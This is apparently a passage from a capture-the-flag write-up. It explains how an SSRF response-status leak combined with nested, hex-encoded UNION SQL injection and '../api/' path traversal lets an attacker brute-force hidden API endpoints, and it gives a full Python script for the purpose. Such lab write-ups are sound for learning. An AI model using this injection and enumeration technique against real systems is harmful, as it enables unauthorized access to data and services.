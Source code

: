 ```
Expected HTTP status 200, Received: 404
```

Well, the server validates SSRF response status code and returns it in the own response. Do you remember about `/api` in the app? Let's look again at the Grinch API status codes description:

{F1138111}

Using this table and the text in the response, we can bruteforce wordlist of most popular endpoints and find the valid API endpoints. 

Let's create python script to find API endpoints:

```python
import requests as req
import string
from urllib.parse import urlencode, quote
import re

URL = 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59'

def get_endpoints():
  with open('objects-lowercase.txt', 'r') as f:
    endpoint = f.readline()
    while endpoint:
      endpoint = endpoint.lower().strip()
      res = send_sqli(endpoint)
      if res:
        print('{} => {}, {}'.format(endpoint, res['status_code'], res['text']))
      endpoint = f.readline()

def send_sqli(payload):
  print(payload)
  query = "' and 1=0 union select 1,2,'../api/{}' -- ".format(payload).encode('utf-8').hex()
  params = {
    'hash': "?hash='and 1=0 union select 0x{},2,3 -- ".format(query)
  }
  res = req.get(URL + '/album', params=params)
  match = re.search(r'/picture\?data=([A-Za-z0-9=]+)', res.text)
  if match:
    return call_api(match.group(1))
  print_and_exit('Empty response for ' + payload)

def call_api(data):
  res = req.get(URL + '/picture?data=' + data)
  if (not re.search(r'Received: 404', res.text)):
    return {
      'status_code': res.status_code,
      'text': res.text
    }

def print_and_exit(message):
  print(message)
  exit(0)

get_endpoints()
```
